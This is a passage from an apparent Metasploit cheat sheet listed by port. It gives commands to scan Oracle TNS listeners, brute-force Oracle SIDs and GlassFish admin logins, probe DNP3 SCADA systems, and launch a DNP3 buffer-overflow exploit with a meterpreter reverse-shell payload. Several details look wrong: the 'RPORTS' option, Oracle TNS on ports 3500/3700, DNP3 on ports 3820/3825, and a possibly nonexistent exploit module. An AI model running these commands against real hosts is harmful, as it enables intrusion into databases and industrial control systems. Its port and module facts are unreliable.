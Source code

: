 
## Port 3500, 3700 - Oracle TNS
**Service**: Oracle Transparent Network Substrate  
**Common services**: Oracle Database, Oracle Application Server

### Auxiliary: Oracle TNS Version
```bash
use auxiliary/scanner/oracle/tnslsnr_version
set RHOSTS [IP]
set RPORTS 3500,3700
```
**Purpose**: Identifies Oracle TNS listener version.

### Auxiliary: Oracle SID Brute Force
```bash
use auxiliary/scanner/oracle/sid_brute
set RHOSTS [IP]
set RPORT 1521
```
**Purpose**: Enumerates Oracle System IDs.

---

## Port 3820, 3825 - DNP3 (SCADA)
**Service**: Distributed Network Protocol  
**Common services**: Industrial Control Systems, SCADA systems

### Auxiliary: DNP3 Information Disclosure
```bash
use auxiliary/scanner/scada/dnp3_info
set RHOSTS [IP]
set RPORTS 3820,3825
```
**Purpose**: Gathers information from DNP3 systems.

### Exploit: DNP3 Buffer Overflow
```bash
use exploit/windows/scada/dnp3_bof
set RHOST [IP]
set RPORT 3820
set PAYLOAD windows/meterpreter/reverse_tcp
```
**Purpose**: Exploits buffer overflow vulnerabilities in DNP3 implementations.

---

## Port 4848 - Oracle GlassFish
**Service**: Oracle GlassFish Application Server  
**Common services**: GlassFish, Oracle Web Logic (sometimes)

### Auxiliary: GlassFish Login Scanner
```bash
use auxiliary/scanner/http/glassfish_login
set RHOSTS [IP]
set RPORT 4848
set USERPASS_FILE /path/to/wordlist.txt
```
**Purpose**: Bruteforces GlassFish admin console credentials.
